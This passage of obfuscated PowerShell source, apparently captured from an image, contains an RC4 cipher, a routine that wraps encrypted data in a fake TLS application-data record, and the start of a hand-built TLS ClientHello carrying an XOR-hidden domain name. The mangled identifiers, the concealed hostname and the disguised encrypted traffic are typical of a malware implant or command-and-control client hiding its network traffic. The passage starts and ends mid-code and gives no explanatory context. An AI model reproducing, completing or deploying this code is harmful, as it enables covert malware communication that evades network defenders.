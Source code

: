 ```powershell
                         return $B8B8B8B8B8B8B8BB
                  }
    function lIIIlllIIIIllllI {
     param (
                         [byte[]]$B8BBB8B8BB8BBB88,
                 [byte[]]$BBB8BBB8B88B88B8
        )
                 $BBB88BB88BB8BBB8 = 0..255
                 $B888B8BB888BB88B = 0
           for ($B8BB8BBB8BB8BBBB = 0; $B8BB8BBB8BB8BBBB -lt 256; $B8BB8BBB8BB8BBBB++) {
                           $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $B8BBB8B8BB8BBB88[$B8BB8BBB8BB8BBBB % $B8BBB8B8BB8BBB88.Length]) % 256
                             $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
     }
                     $B8BB8BBB8BB8BBBB = 0
                    $B888B8BB888BB88B = 0
                        $BBBBB8BBB8BBB88B = @()
           foreach ($BBBB88888B888BBB in $BBB8BBB8B88B88B8) {
                             $B8BB8BBB8BB8BBBB = ($B8BB8BBB8BB8BBBB + 1) % 256
                              $B888B8BB888BB88B = ($B888B8BB888BB88B + $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]) % 256
                            $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB], $BBB88BB88BB8BBB8[$B888B8BB888BB88B] = $BBB88BB88BB8BBB8[$B888B8BB888BB88B], $BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB]
                        $B88BBB888BBB88B8 = $BBB88BB88BB8BBB8[($BBB88BB88BB8BBB8[$B8BB8BBB8BB8BBBB] + $BBB88BB88BB8BBB8[$B888B8BB888BB88B]) % 256]
                       $BBBBB8BBB8BBB88B += ($BBBB88888B888BBB -bxor $B88BBB888BBB88B8)
          }
             return ,$BBBBB8BBB8BBB88B
                }
    function lllIIlIIlIllllll {
                  param ([string]$B888BBBBB8B8B8BB)
              $B888B8B8B88B8BB8 = [System.Text.Encoding]::UTF8.GetBytes($B888BBBBB8B8B8BB)
                   $BBBB8888BBBBB8BB = (lIIIlllIIIIllllI -B8BBB8B8BB8BBB88 $BBB88B8B888BBB88 -BBB8BBB8B88B88B8 $B888B8B8B88B8BB8) + (0x02,0x04,0x06,0x08)
                     $B88BBBBBB888888B = [System.BitConverter]::GetBytes([int16]$BBBB8888BBBBB8BB.Length)
        [Array]::Reverse($B88BBBBBB888888B)
       return (0x17, 0x03, 0x03) + $B88BBBBBB888888B + $BBBB8888BBBBB8BB
                }
             function llIIlllllIIIlllI {
                 $B88B888B8888B888 = (IIlIlIlIllIIllIl -BBBB8888BBBBB8BB @(168,187,172,183,184,167,240,186,171,169,176,177,176,186,187,172,240,189,177,179) -BB8BB8B8BBB8B8B8 222)
          $BBBB8B8BB888B88B = [System.Text.Encoding]::ASCII.GetBytes($B88B888B8888B888)
            $BB88BBBB88B8888B = [byte[]] ([BitConverter]::GetBytes([UInt16]$BBBB8B8BB888B88B.Length))
                          [Array]::Reverse($BB88BBBB88B8888B)
                       $B88888B888888BB8 = @(0x00) + $BB88BBBB88B8888B + $BBBB8B8BB888B88B
                   $BB8BBBB8B8888BB8 = [byte[]] ([BitConverter]::GetBytes([UInt16]$B88888B888888BB8.Length))
                       [Array]::Reverse($BB8BBBB8B8888BB8)
         $B8888B88BB888B88 = $BB8BBBB8B8888BB8 + $B88888B888888BB8
              $B888B888BBB8B8BB = [byte[]] ([BitConverter]::GetBytes([UInt16]$B8888B88BB888B88.Length))
        [Array]::Reverse($B888B888BBB8B8BB)
                     $B8BB88BBBB8B88B8 = @(0x00,
                0x00) + $B888B888BBB8B8BB + $B8888B88BB888B88
                 $BBBB88B8BB88B88B = @(0x00, 0x0b,0x00,0x04,0x03,0x00,0x01,0x02,
                                 0x00,0x0a,0x00,0x16,0x00,0x14,0x00,0x1d,0x00,0x17,0x00,0x1e,0x00,0x19,0x00,0x18,0x01,0x00,0x01,0x01,0x01,0x02,0x01,0x03,0x01,0x04,
                                            0x00,0x23,0x00,0x00,
                              0x00,0x16,0x00,0x00,
                                      0x00,0x17,0x00,0x00,
```
